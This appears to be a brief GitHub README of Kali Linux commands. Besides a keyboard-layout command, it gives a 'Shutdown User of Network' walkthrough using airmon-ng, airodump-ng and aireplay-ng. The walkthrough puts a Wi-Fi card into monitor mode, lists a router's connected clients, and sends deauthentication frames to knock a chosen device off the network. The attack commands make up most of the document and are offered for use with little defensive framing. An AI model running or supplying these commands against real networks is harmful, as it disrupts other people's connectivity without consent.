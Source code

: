 # kali-commands

---

**Others Commands:** 
   setxkbmap -model abnt2 -layout br _This command set the layout keyboard for brazilian._
   
---

**Wireless**

***Shutdown User of Network***

ifconfig - _for see name of the internet, like Ether or Wlan_
root@localhost:~# airmon-ng start wlan0 _This example init airmon for monitoring_
root@localhost:~# airodump-ng wlan0mon _this init the screen of networks_
root@localhost:~# airodump-ng --bssid 58:D5:6E:6C:2F:8C --channel 10 wlan0mon _Here initialize process of see all users in network_
root@localhost:~# aireplay-ng -0 100 -a 58:D5:6E:6C:2F:8C -c 48:49:C7:FD:F3:1E wlan0mon _this init the attach.

root@localhost:~# airmon-ng stop wlan0mon _This stop monitoring mod_

  -refs: --bssid or -a is Mac Adress of Router and -c is Mac of device connected.


